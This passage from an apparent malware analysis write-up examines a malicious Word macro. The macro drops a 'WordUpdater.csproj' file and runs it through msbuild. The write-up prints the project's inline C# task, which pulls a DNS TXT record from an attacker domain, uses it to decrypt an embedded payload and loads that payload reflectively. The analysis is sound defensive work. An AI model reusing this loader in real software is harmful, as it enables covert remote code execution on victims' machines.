 
So this VBA will check that .NET is installed on the box, and then write a
file to the user’s Download folder named “WordUpdater.csproj”. Then, it will
run it with msbuild. Finally, it will pop the decoy message box we noted
earlier saying that the document doesn’t work on this version of office.

Interestingly, if .NET isn’t install, it will do a dns lookup of
pwdas71.healthservices-dns.com. This is likely some kind of telemetry for the
actor.

## Wordupdater.csproj

A .csproj file is a Visual Studio .NET C# Project. I’m not an expert in C# or
Visual Studio, but looking through the code, it’s clear what it’s doing.

### Inline Task

The majority of this file is a Task, which is some code that should run at
compile time by msbuild (which makes sense since the attacker is calling this
code with msbuild). I found [this tutorial on building a
Task](https://msdn.microsoft.com/en-us/library/dd723643.aspx), but the short
version is, you add a Task structure under the main Project tag, which has a
`<UsingTask>` tag and a `<Task>` tag. The former defines how the task will
run, and the latter contains the code.

In this case, the `<UsingTask>` tag indicates that it will run a
`TaskName="Submerge"`. Then in the `<Task>` we find `public class Submerge :
Task, ITask`.

### Main Code

The main code that runs is here (with another base64 blob snipped):

    
    
                    public override bool Execute()
                    {
                        Dive();
                        return true;
                    }
    
                    public static void Dive()
                    {
                        string fun = "07L+ZEb+PcKgBfai...snip...cSdo0Cn9Fr+NtvY=";
                        string chk = "7juMJAX+sK5QZKco3BfZuodUZ5GQyeGCZlZ6nwhGpPY=";
    
                        int retries = 30;
                        while(retries > 0)
                        {
                          string reply = GetTXTRecord("mx.healthservices-dns.com");
                          byte[] replyB = Encoding.ASCII.GetBytes(reply);
                          try
                          {
                            byte[] decr = AESDecrypt(SHA256(replyB), System.Convert.FromBase64String(fun));
                            string new_chk = System.Convert.ToBase64String(SHA256(decr));
                            if(chk == new_chk)
                            {
                              Assembly a = Assembly.Load(decr);
                              Type type = a.GetType("Reflective.Dropper");
                              MethodInfo methodInfo = type.GetMethod("Dive");
                              if (methodInfo == null) { return; }
                              try
                              {
                                var o = Activator.CreateInstance(type);
                                object[] arguments = null;
                                methodInfo.Invoke(o, arguments);
                                break;
